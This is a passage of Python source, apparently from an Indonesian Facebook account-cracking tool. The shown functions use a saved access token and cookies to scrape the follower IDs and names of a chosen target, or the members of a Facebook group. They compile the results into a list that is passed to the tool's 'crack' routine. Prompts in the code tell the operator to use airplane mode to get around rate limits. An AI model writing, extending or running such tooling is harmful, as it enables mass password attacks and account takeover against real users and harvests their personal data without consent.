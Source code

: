 		back()
#-------------------[ CRACK-PENGIKUT ]----------------#
def dump_pengikut():
	try:
		token = open('.token.txt','r').read()
		cok = open('.cok.txt','r').read()
	except IOError:
		exit()
	print('>> Ketik ( me ) Jika Ingin Crack Follower Sendiri ')
	pil = input('>> Masukkan Idz Target : ')
	try:
		koh2 = requests.get('https://graph.facebook.com/'+pil+'?fields=subscribers.limit(99999)&access_token='+tokenku[0],cookies={'cookie': cok}).json()
		for pi in koh2['subscribers']['data']:
			try:id.append(pi['id']+'|'+pi['name'])
			except:continue
		print(f'>> Total Idz :{h} '+str(len(id)))
		setting()
	except requests.exceptions.ConnectionError:
		print('>> Koneksi Internet Bermasalah ')
		exit()
	except (KeyError,IOError):
		print('>> Gagal Mengambil Target ')
		exit()
#------------------[ CRACK-GRUP ]-----------------#
balmond = b+"["+h+"âœ“"+b+"]"

def lah():
	print("\r"+balmond+m+" \x1b[1;95mTotal ID :\x1b[1;97m "+str(len(id))+"                     ")
	input(balmond+m +"\x1b[1;97m Klik [\x1b[1;96m Enter ]\x1b[1;97m Jika Ingin Langsung Crack !!")
	pass
	setting()
def grup():
	print('')
	id = input(""+balmond+h+" \x1b[1;94m>> Masukkan Idz Grup :\x1b[1;94m ")
	ua = 'Mozilla/5.0 (SymbianOS/9.3; Series60/3.2 NokiaE52-1/052.003; Profile/MIDP-2.1 Configuration/CLDC-1.1 ) AppleWebKit/525 (KHTML, like Gecko) Version/3.0 BrowserNG/7.2.6.2 3gpp-gba'
	miskinlu = {"user-agent": ua}
	url = "https://mbasic.facebook.com/groups/"+id
	ses = requests.Session()
	try:
		gn = parser(ses.get(url, headers=miskinlu).text, 'html.parser')
	except requests.exceptions.ConnectionError:
		print(balmond+m+" Koneksi Internet Terputus..")
		time.sleep(0.5)
		exit()
	berr = gn.find("title")
	berr2 = berr.text.replace(" | Facebook","").replace(" Grup Publik","")
	if berr2=='Masuk Facebook':
		print(balmond+m+" Limit, Silahkan Mode Pesawat Dan Coba Lagi..")
		time.sleep(0.5)
		crack_grup()
	elif berr2=='Kesalahan':
		jalan(balmond+m+" Grup Tidak Ditemukan..")
		time.sleep(0.5)
		crack_grup()
	else:pass
	print(""+balmond+p+" \x1b[1;94m>> Nama Grup :\x1b[1;97m "+berr2)
	ggs = gn.find_all('table')
	ang = []
	for ff in ggs:
		anggo = ff.text
		bro = anggo.replace('Anggota','')
		try: